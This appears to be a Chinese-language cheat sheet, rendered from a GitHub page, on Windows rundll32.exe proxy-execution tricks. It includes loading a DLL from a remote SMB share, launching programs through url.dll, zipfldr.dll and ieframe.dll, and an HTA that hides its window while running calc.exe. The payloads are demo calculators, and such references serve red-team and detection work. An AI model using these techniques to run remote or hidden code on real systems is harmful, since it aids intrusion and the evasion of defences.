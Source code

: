 ### Rundll32.exe

Rundll32.exe 与 Windows 操作系统相关联，可调用从 DLL（16位或32位）导出的函数并将其存储在适当的内存库中。

```cmd
rundll32.exe \\192.168.1.1\test.dll,0
```

**url.dll**

调用 API ShellExecute 打开程序
```
rundll32.exe url.dll,FileProtocolHandler calc.exe
```

执行 js 文件
```js
WScript.Echo("1");
```

```
rundll32.exe url.dll,OpenURL C:\test\echo.js
```

执行 hta 文件
```html
<HTML>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD>
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD>
</HTML>
```

```
rundll32.exe url.dll,OpenURLA C:\test\calc.hta
```

**zipfldr.dll**

```
rundll32 zipfldr.dll, RouteTheCall calc.exe
```

**ieframe.dll**

编写一个 .url 文件
```
[InternetShortcut]
URL=c:\windows\system32\calc.exe
```
